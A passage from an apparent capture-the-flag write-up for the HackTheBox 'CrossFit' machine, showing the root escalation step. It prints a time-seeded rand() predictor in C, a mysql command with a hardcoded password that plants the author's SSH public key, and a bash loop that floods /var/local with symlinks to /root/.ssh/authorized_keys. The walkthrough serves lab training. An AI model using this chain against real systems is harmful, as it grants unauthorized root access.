 * Insert an entry into the database with my public SSH key.

* Create a `bash` script that loops forever, generating random numbers and hashing it to create new files within `/var/local`.

* Each file created must be a symlink pointing to `/root/.ssh/authorized_keys`.

### Root Shell

Here's the script for generating random numbers based on time:

```c
$ cat exp.c 
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(void)
{
    srand(time(0));
    printf("%d", rand());

    return 0;
}
```

This has to be compiled on the machine itself. From the binary, the `messages` table has 4 columns: `id`, `name`, `email` and `message`. The `id` can be fixed at `1`, and the rest of the fields would be my public SSH key.

Here's the one-liner to put a database entry:

```bash
mysql -h localhost -u crossfit -poeLoo~y2baeni -Dcrossfit -e'insert into messages (id, name, email, message) values (123, "ssh-ed25519", "kali@kali", "AAAAC3NzaC1lZDI1NTE5AAAAIPGjC0f5ZIEHnUQHy/0PQuQFo+QIlPnFUsnyooVvCH5R");'
```

Then, here's the `bash` loop to infinitely generate symlinks:

```bash
while true; do ln -s /root/.ssh/authorized_keys /var/local/$(echo -n $(./exploit)123 | md5sum | cut -d " " -f 1) 2>/dev/null; done
```

When the loop is running, it generates a lot of files within the `/var/local` file:

![](../../../.gitbook/assets/htb-crossfit-image-21.png)

And every single one points to the `root` directory:

![](../../../.gitbook/assets/htb-crossfit-image-22.png)
